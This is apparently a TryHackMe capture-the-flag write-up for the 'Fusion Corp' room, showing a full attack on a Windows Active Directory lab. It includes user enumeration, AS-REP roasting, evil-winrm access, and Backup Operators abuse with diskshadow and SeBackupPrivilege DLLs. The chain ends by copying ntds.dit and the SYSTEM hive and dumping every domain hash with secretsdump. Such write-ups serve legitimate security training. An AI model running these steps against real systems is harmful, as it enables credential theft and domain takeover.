



# Fusion Corp -- TryHackMe

Link to the room: https://tryhackme.com/room/fusioncorp

-----------------

Setting IP variable:

```bash
export IP=10.10.99.156
```

# Enumeration

## Nmap

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: eBusiness Bootstrap Template
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-06-15 19:36:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: FUSION
|   NetBIOS_Domain_Name: FUSION
|   NetBIOS_Computer_Name: FUSION-DC
|   DNS_Domain_Name: fusion.corp
|   DNS_Computer_Name: Fusion-DC.fusion.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2021-06-15T19:36:42+00:00
| ssl-cert: Subject: commonName=Fusion-DC.fusion.corp
| Not valid before: 2021-03-02T19:26:49
|_Not valid after:  2021-09-01T19:26:49
|_ssl-date: 2021-06-15T19:37:23+00:00; 0s from scanner time.
Service Info: Host: FUSION-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-06-15T19:36:46
|_  start_date: N/A
```

## LDAP

Before going forward, let's get the domain name using Ldapsearch, steps to improve quality of life. We'll enumerate using simple authentication and get the namingcontexts within the base scope.

```bash
 ldapsearch -x -h $IP -s base namingcontexts
```

```                                                                                                                                       
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts
#

#
dn:
namingcontexts: DC=fusion,DC=corp
namingcontexts: CN=Configuration,DC=fusion,DC=corp
namingcontexts: CN=Schema,CN=Configuration,DC=fusion,DC=corp
namingcontexts: DC=DomainDnsZones,DC=fusion,DC=corp
namingcontexts: DC=ForestDnsZones,DC=fusion,DC=corp

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```

## Website

Usernames found:

```
Jhon Mickel
Andrew Arnold
Lellien Linda
Jhon Powel
```

### ffuf

Interesting directory found:

```
/backup
```

Found OpenDocument spreadsheet with usernames:

```
jmickel
aarnold
llinda
jpowel
dvroslav
tjefferson
nmaurin
mladovic
lparker
kgarland
dpertersen
```

We have the name of the domain and a list of users, let's fire up kerbrute to verify if any of the users from our list exist on the domain.

## Kerbrute

```bash
kerbrute userenum -d 'fusion.corp' --dc $IP user.txt   
```

```
2021/06/17 00:16:28 >  Using KDC(s):
2021/06/17 00:16:28 >   10.10.99.156:88

2021/06/17 00:16:28 >  [+] VALID USERNAME:       lparker@fusion.corp
2021/06/17 00:16:28 >  Done! Tested 11 usernames (1 valid) in 0.346 seconds
```

We've got a hit! Let's add a new file with the provided username and fire up asreproast.

## ASREPRoast

```bash
GetNPUsers.py 'fusion.corp/' -usersfile lparker.txt -no-pass -dc-ip $IP -format hashcat -outputfile hashes 
```

Let's use name-that-hash to get the mode for hashcat

```
Kerberos 5 AS-REP etype 23, HC: 18200 JtR: krb5pa-sha1 Summary: Used for Windows Active Directory
```
Crack the hash using hashcat and we have our first credential!

# Initial Foothold 

```bash
evil-winrm -i $IP -u lparker -p '****************'
```

We'll get our first flag. Being able to log in isn't the only thing we can do using the credentials found though. Let's fire up the ldap domain dump and see what else can we get.

## LDAP Domain Dump

```bash
ldapdomaindump $IP -u 'fusion.corp\lparker' -p '****************' --no-json --no-grep
```

We get a file called domain_users.html. Using your fav HTML viewer (some people even have those), you should see the following information:



With the newly found credentials, we can log in as the user jmurphy and get the second flag!

# Getting Admin

From the Domain users table, we can see that this user is a member of **Backup Operators**, something Lparker wasn't. 



This will serve as the path to getting root. Looking into this group we can see that the members have permissions to create back up files and we can leverage this fact to get create a copy of the **Ntds.dit** file. I'm sure two questions arise:
- Why this file?
- Why go to the trouble of creating a backup file?

Well to answer the first question, the Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain. So obviously it's a gold mine for us.

Secondly, this file is constantly in use by AD and locked. If you try to simply copy the file, you will see an error message similar to:



An in-depth guide for this can be found at https://www.ultimatewindowssecurity.com/blog/default.aspx?d=10/2017. We will be following the steps mentioned there to get root.

## Create a volume shadow copy

*Don't forget to add a space after each line*

```powershell
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% z: 
```

## Upload the text file and run diskshadow.exe

```powershell 
*Evil-WinRM* PS C:\Users\lparker\Documents> mkdir C:\tmp

*Evil-WinRM* PS C:\Users\lparker\Documents> cd C:\tmp

*Evil-WinRM* PS C:\tmp> upload diskshadow.txt

*Evil-WinRM* PS C:\tmp> diskshadow.exe /s .\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  FUSION-DC,  6/16/2021 9:59:14 AM

-> set metadata C:\tmp\tmp.cabs
The existing file will be overwritten.
-> set context persistent nowriters
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {03bac256-2745-48c7-9f19-0a379974378a} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {2e386201-c4c3-40e2-bd38-684f8bf0be50} set as environment variable.

Querying all shadow copies with the shadow copy set ID {2e386201-c4c3-40e2-bd38-684f8bf0be50}

        * Shadow copy ID = {03bac256-2745-48c7-9f19-0a379974378a}               %someAlias%
                - Shadow copy set: {2e386201-c4c3-40e2-bd38-684f8bf0be50}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{66a659a9-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 6/16/2021 9:59:15 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
                - Originating machine: Fusion-DC.fusion.corp
                - Service machine: Fusion-DC.fusion.corp
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %someAlias% z:
-> %someAlias% = {03bac256-2745-48c7-9f19-0a379974378a}
The shadow copy was successfully exposed as z:\.
```

## Permission block!

As with any ctfs, life simply can't be that easy otherwise what's the point? When we try to copy the backup NTDS.dit we can't due to insufficient privileges as shown below:

```powershell
*Evil-WinRM* PS C:\tmp> get-acl Z:\windows\ntds\ntds.dit |fl


Path   : Microsoft.PowerShell.Core\FileSystem::Z:\windows\ntds\ntds.dit
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:AI(A;ID;FA;;;SY)(A;ID;FA;;;BA)
```

## Circumventing the problem

We'll need another tool to bypass this and lucky for us (some might argue we make our own luck), our group privileges allow us to change these permissions! The following compiled ddl files will allow us to copy Ntds.dit (only readable by an Admin):

```bash
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
```
I know, hard to imagine life without Github!

## Upload and Import

```powershell
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege z:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite
```

In order to decrypt the NTDS.dit, you need the SYSTEM file as well:

```powershell
*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system
```
Download NTDS.dit and SYSTEM:

```powershell
*Evil-WinRM* PS C:\tmp> download ntds.dit

*Evil-WinRM* PS C:\tmp> download system
```

## Dumping the hashes

```bash
secretsdump.py -system system -ntds ntds.dit LOCAL 
```

**Finally! Now we can use the administrator hash to login using winrm and retrieve the final flag**
